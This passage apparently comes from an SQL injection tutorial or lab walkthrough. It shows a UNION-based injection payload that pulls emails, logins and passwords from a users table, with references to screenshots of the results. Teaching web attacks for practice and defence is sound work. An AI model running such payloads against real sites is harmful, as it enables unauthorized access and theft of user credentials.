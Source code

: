 <img src="/static/sqli/sql5.png" style="border-radius: 10px; width: 70%;"  />

So we got some interesting columns from the users table.

Now let's try to extract the information for some users. We will get the email, login and password from the users table with the following query:

```sql 
' and 1=0 UNION SELECT 1,email,login,password,5,6,7 FROM users -- -
``` 
<img src="/static/sqli/sql6.png" style="border-radius: 10px; width: 70%;"  />
